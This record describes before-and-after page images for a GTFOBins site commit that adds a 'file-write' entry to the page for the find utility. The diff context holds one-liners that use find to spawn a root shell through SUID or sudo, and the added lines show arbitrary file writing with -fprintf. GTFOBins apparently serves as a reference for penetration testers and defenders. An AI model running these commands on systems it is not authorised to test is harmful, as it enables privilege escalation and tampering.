

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/find.md, in a window 1280 px wide. Shown: the whole page at 91% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
add find file-write

```diff
--- a/_gtfobins/find.md
+++ b/_gtfobins/find.md
@@ -6,4 +6,10 @@ functions:
     - code: ./find . -exec /bin/sh -p \; -quit
   sudo:
     - code: sudo find . -exec /bin/sh \; -quit
+  file-write:
+    - description: DATA is a format string, it supports some escape sequences
+      code: |
+        TD=$(mktemp -d)
+        touch $TD/dummy
+        find $TD -type f -fprintf file_to_write DATA
 ---
```
